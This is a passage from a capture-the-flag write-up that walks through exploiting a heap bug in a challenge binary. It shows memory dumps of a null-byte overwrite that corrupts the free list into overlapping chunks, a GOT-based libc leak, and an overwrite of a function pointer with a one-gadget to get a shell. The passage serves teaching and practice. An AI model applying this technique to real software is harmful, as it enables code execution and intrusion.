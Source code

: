 ```
0x6032f0:	0x0000000000000000	0x0000000000000000
```
Now, we can perform a null byte overwrite on `fd` on the chunk at `0x6032b0`, corrupting the free list and giving us overlapping chunks.

Thus, we perform our null byte overwrite, and obtain our overlapping chunks:
```
0x6031c0:	0x0000000000000000	0x0000000000000031
0x6031d0:	0x0000000000603060	0x0000000000603040
0x6031e0:	0x000000000040093c	0x0000000000400887
0x6031f0:	0x0000001100000000	0x0000000000000041 <- new string that we control
0x603200:	0x0000000000000000	0x0000000000000031 <- message chunk that we can control
0x603210:	0x0000000000603320	0x0000000000603340
0x603220:	0x000000000040093c	0x0000000000400887
0x603230:	0x0000001100000000	0x0000000000000041
0x603240:	0x0000000000000000	0x0000000000000000
0x603250:	0x0000000000000000	0x0000000000000000
0x603260:	0x0000000000000000	0x0000000000000000
0x603270:	0x0000000000000000	0x0000000000000031
0x603280:	0x0000000000000000	0x0000000000000000
0x603290:	0x0000000000000000	0x0000000000000000
0x6032a0:	0x0000000000000000	0x0000000000000031
0x6032b0:	0x00000000006032e0	0x0000000000603300
0x6032c0:	0x000000000040093c	0x0000000000400887
0x6032d0:	0x0000001100000000	0x0000000000000021
0x6032e0:	0x0000000a6c6c6c6c	0x00007ffff7dd1b78
0x6032f0:	0x0000000000000000	0x0000000000000021
```

Now, after doing this, exploitation is relatively trivial.

First, we use the edit function to set the string pointers of our message chunk to a GOT address and obtain a libc address. Using the given libc, we can calculate the libc base address and thus magic gadgets.

Then, we perform edit again on the same string and set print_func to a magic gadget to obtain a shell.

Here's what the memory region looks like after we set up everything:
```
0x6031f0:	0x0000001100000000	0x0000000000000041 <- string chunk
0x603200:	0x0000000000000000	0x0000000000000031 <- message chunk
0x603210:	0x0000000000602028	0x0000000000602028 <- pointer to the GOT to obtain libc leak
0x603220:	0x00007ffff7a52216	0x00007ffff7a52216 <- magic gadget address
0x603230:	0x0000001100000000	0x0000000000000041
```

Now, to pop a shell, we simply view the chunks and it will call the magic gadget for us!

The final exploit can be found [here](./solve.py)